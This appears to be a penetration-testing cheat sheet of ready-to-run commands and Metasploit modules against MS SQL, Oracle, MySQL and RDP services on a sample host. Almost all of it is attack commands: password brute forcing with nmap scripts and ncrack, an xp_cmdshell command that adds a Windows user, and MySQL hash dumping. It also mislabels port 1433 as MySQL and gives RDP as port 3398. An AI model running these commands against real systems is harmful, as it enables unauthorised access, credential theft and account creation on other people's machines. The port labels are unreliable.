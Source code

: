 
## Port 1433 (MySQL)
```
nmap -n -v -sV -Pn -p 1433 --script ms-sql-brute --script-args userdb=users.txt,passdb=passwords.txt 192.168.1.10
nmap -n -v -sV -Pn -p 1433 --script ms-sql-info,ms-sql-ntlm-info,ms-sql-empty-password  192.168.1.10
nmap -n -v -sV -Pn -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=SQL_USER,mssql.password=SQL_PASS,ms-sql-xp-cmdshell.cmd="net user lifeoverpentest MySecretPassword123 /add" 192.168.1.10
sqsh -S 192.168.1.10 -U sa
```

**Metasploit Modules for MsSQL service**
- auxiliary/scanner/mssql/mssql_login
- auxiliary/admin/mssql/mssql_exec
- auxiliary/admin/mssql/mssql_enum


## Port 1521 (Oracle DB)
```
nmap -n -v -sV -Pn -p 1521 --script=oracle-enum-users --script-args sid=ORCL,userdb=users.txt 192.168.1.10
nmap -n -v -sV -Pn -p 1521 --script=oracle-sid-brute 192.168.1.10
tnscmd10g version -h 192.168.1.10
tnscmd10g status -h 192.168.1.10
```

**Metasploit Modules for Oracle DB service** 
- auxiliary/scanner/oracle/emc_sid
- auxiliary/scanner/oracle/oracle_login 
- auxiliary/scanner/oracle/sid_brute
- auxiliary/scanner/oracle/sid_enum
- auxiliary/scanner/oracle/tnslsnr_version
- auxiliary/scanner/oracle/tnspoison_checker


## Port 3306 (MySQL)
```
nmap -n -v -sV -Pn -p 3306 --script=mysql-info,mysql-audit,mysql-enum,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-users,mysql-query,mysql-variables,mysql-vuln-cve2012-2122 192.168.1.10
mysql --host=192.168.1.10 -u root -p
```

**Metasploit Modules for MySQL service**
- auxiliary/scanner/mysql/mysql_authbypass_hashdump
- auxiliary/scanner/mysql/mysql_login
- auxiliary/scanner/mysql/mysql_schemadump
- auxiliary/scanner/mysql/mysql_version
- auxiliary/scanner/mysql/mysql_writable_dirs


## Port 3398 (RDP)
```
ncrack -vv --user administrator -P passwords.txt rdp://192.168.1.10,CL=1
rdesktop 192.168.1.10
```

**Metasploit Modules for Remote Desktop service**
- auxiliary/scanner/rdp/ms12_020_check
- auxiliary/scanner/rdp/rdp_scanner 


